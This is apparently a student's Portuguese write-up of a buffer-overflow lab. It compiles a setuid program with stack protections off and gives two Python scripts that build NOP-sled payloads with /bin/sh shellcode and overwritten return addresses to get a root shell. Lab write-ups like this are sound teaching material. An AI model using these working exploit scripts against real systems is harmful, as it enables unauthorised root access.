

# Trabalho realizado nas Semanas #5 e #6


## Task 1: Getting Familiar with Shellcode

Observamos que não houve diferença perceptível durante a execução dos dois programas compilados com versões de binários diferentes (32 e 64 bits). Ambos os programas abriram um shell no diretório em que foram executados.


## Task 2: Understanding the Vulnerable Program

Nesta etapa, tentamos explorar uma vulnerabilidade de 'buffer overflow' num programa de 32 bits. As seguintes observações foram feitas:

- Tentamos copiar uma entrada de 517 bytes para um buffer de 100 bytes usando a função `strcpy`. Isso resultou num 'buffer overflow', uma vez que `strcpy` não verifica o tamanho do buffer.

- A entrada de 517 bytes foi lida de um arquivo que pode ser manipulado pelo 'user', o que significa que é possível inserir shellcode na pilha.

Para preparar o programa para exploração, compilamos o código-fonte com as seguintes opções:

```bash
gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
```
Explicando as opções:

- `-DBUF_SIZE=100`: Define o tamanho do buffer como 100.
- `-m32`: Compila o programa numa arquitetura de 32 bits.
- `-z execstack`: Permite que a pilha seja executável.
- `-fno-stack-protector`: Desativa a proteção da pilha.


Além disso, alteramos a propriedade do programa para "root" e definimos o bit "setuid" para que o programa seja executado com privilégios de root.

## Task 3: Launching Attack on 32-bit Program (Level 1)

### 3.1 Investigation

Para entender a vulnerabilidade e planear o ataque, executamos o código em modo de 'debug'. Isso permitiu-nos identificar a posição de retorno da função `bof()` e o início do buffer.

### 3.2 Launching Attacks

Para lançar o ataque, preparamos um shellcode de 32 bits e criamos um script que gera um arquivo chamado "badfile". O shellcode e o script incluem:

- O shellcode de 32 bits.
- A posição de início do buffer (ebp).
- O deslocamento calculado com base em ebp menos o início do buffer, acrescido de 4 bytes para o endereço de retorno.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode("latin-1")

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)  # Change this number
content[start : start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xFFFFCA98 + start  # Change this number
offset = 0xFFFFCA98 - 0xFFFFCA2C + 4  # Change this number

L = 4  # Use 4 for 32-bit address and 8 for 64-bit address
content[offset : offset + L] = (ret).to_bytes(L, byteorder="little")
##################################################################

# Write the content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

Quando executamos o programa com o arquivo "badfile" gerado, o shellcode é executado com sucesso, resultando na abertura de um shell com privilégios de root.



## Task 4: Launching Attack on 32-bit Program (Level 2)

Como sabemos que o tamanho do buffer está entre 100 a 200 bytes, copiamos o return address ret 25 vezes para o buffer. Assim asseguramos que damos overwrite ao return address do programa original. Como na task 3, o nosso return address aponta para o shellcode criado por nós que fica separado da stack por um padding para o mesmo não ser alterado.

```
#!/usr/bin/python3
import sys

shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode("latin-1")

content = bytearray(0x90 for i in range(517))

##################################################################

start = 517 - len(shellcode)
content[start : start + len(shellcode)] = shellcode

ebp_offset = 100  # start of the range which is (100-200)
offset = ebp_offset + 4
ebp_addr = 0xffffd0b8
ret = ebp_addr + 120  # 120 as padding

L = 4
# in the next line 100 will be the addition in offset thus, we can achieve the range from 100 to 200, and 25 is the times we will pur retun address in our content variable.

content[offset : offset + 100] = (ret).to_bytes(L, byteorder="little") * 25

##################################################################

# Write the content to a file
with open("badfile", "wb") as f:
    f.write(content)
```
